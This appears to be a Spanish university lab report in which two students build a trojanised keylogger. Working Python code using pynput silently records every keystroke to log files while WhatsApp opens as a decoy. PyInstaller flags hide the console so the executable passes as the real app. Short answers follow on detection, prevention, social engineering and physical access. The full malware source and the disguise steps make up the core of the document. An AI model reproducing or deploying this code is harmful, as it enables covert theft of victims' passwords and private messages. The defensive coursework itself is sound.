


Práctica centrada en la creación de un ejecutable aparentemente legítimo que lanza WhatsApp en primer plano mientras registra silenciosamente todas las pulsaciones de teclado en un fichero de log.
Dificultad
Media
Tecnologías
Python · PyInstaller · pynput
Estado
Entregada
Resumen
Completadateclas.log y RAW.txt.Enunciado
A continuación se detalla el enunciado oficial y los apartados a desarrollar.
Parte 1
KeyloggerDesarrollar un script en Python con pynput que capture todas las pulsaciones de teclado y las almacene en ficheros de log, sin interrumpir la experiencia del usuario.
teclas.logRAW.txtParte 2
EjecutableUsar PyInstaller para convertir el script en un ejecutable que abra la aplicación real (WhatsApp) mientras el keylogger se ejecuta de fondo de forma silenciosa.
subprocess.Popen--noconsole --onefile)Código fuente
El script captura teclas en segundo plano y abre WhatsApp en primer plano.
keylog_prac_whatsapp.py
Python# Importaciones
from pynput import keyboard
from datetime import datetime
import os, subprocess
LOGFILE = "teclas.log"
RAWFILE = "RAW.txt"
def nowstr():
return datetime.now().strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
def guardarlog(texto):
with open(LOGFILE, "a", encoding="utf-8") as f:
f.write(texto + "\n")
def guardarraw(texto):
with open(RAWFILE, "a", encoding="utf-8") as f:
f.write(texto)
def borrarultimoraw(): # gestiona Backspace en RAW
try:
with open(RAWFILE, "rb+") as f:
f.seek(0, 2)
if f.tell() > 0:
f.seek(-1, 2)
f.truncate()
except: pass
def on_press(key):
try:
k = key.char
guardarraw(k)
except AttributeError:
if key == keyboard.Key.space: guardarraw(" ")
elif key == keyboard.Key.enter: guardarraw("\n")
elif key == keyboard.Key.backspace: borrarultimoraw()
else:
msg = f"tecla tecleada: {key} a las TIEMPO: {nowstr()}"
guardarlog(msg)
def on_release(key):
if key == keyboard.Key.esc:
guardarlog("Programa finalizado")
return False
if __name__ == "__main__":
guardarlog("Inicio de sesión")
subprocess.Popen("explorer.exe ::{whatsapp}") # abre WhatsApp
with keyboard.Listener(on_press=on_press,
on_release=on_release) as listener:
listener.join()
Resultados
A continuación se muestran dos imágenes: el ejecutable generado y la ventana de WhatsApp junto a los archivos de registro. Sustituye las rutas por las tuyas.
Archivo "application"

WhatsApp + logs

Entrega
Respuestas a las preguntas de análisis de la práctica.
Apartado a
DetecciónLo más fácil es fijarse en detalles visuales: que el icono no sea el de siempre, que el nombre tenga algo raro, o que la fecha de modificación sea más reciente de lo que debería. También es sospechoso que esté en el Escritorio o en Downloads en vez de en sus carpetas habituales. Y si encima al abrirlo no pasa nada, es una señal clara de que está mal montado.
Apartado b
PrevenciónTienen varias capas: whitelisting para que solo se ejecute lo aprobado, EDR/antivirus que detectan comportamientos raros en tiempo real, y GPOs que bloquean ejecuciones desde rutas como %TEMP% o el escritorio. A eso se suma exigir firma digital en los ejecutables y aplicar mínimo privilegio para que un usuario normal no pueda instalar nada por su cuenta.
Apartado c
Ingeniería SocialUn papel clave. Abrir WhatsApp es un gesto casi automático: nadie se para a mirar en qué carpeta está ni cuándo se instaló. En un entorno familiar no sospechamos, y eso es exactamente lo que explota este tipo de ataque. Por muy buenas que sean las defensas técnicas, si el propio usuario ejecuta el archivo voluntariamente, no hay antivirus que valga.
Apartado d
Acceso físicoCon control directo del equipo muchas defensas pierden sentido: se puede copiar el .exe sin pasar por ningún firewall, meterlo en el inicio del sistema para que arranque solo, o acceder al disco entero si no está cifrado (como vimos en la Práctica 1). No hay rastro en red, no hay alerta de acceso remoto. Por eso en seguridad se dice: quien tiene acceso físico, tiene el equipo.
Integrantes: Eneko Álvarez, Maialen Blanco
Criterios
Puntos clave que se comprueban en esta práctica.
teclas.log (con timestamps) y RAW.txt (texto limpio).--noconsole --onefile.Conceptos y tecnología
Idea principal: un ejecutable legítimo de apariencia puede ocultar código malicioso. La única defensa completa combina medidas técnicas (whitelist, EDR, GPO) con concienciación del usuario frente a la ingeniería social.
Reflexión
Esta práctica demuestra de forma muy directa cómo un atacante puede capturar contraseñas, mensajes y datos sensibles simplemente consiguiendo que la víctima ejecute un archivo disfrazado de app conocida. La combinación de ingeniería social y un ejecutable bien construido es extremadamente efectiva.
La parte más delicada fue lograr que el .exe abriera WhatsApp correctamente y que el keylogger funcionase en segundo plano sin ventana de consola visible. El empaquetado con PyInstaller requiere atención a las rutas de los ficheros de log generados.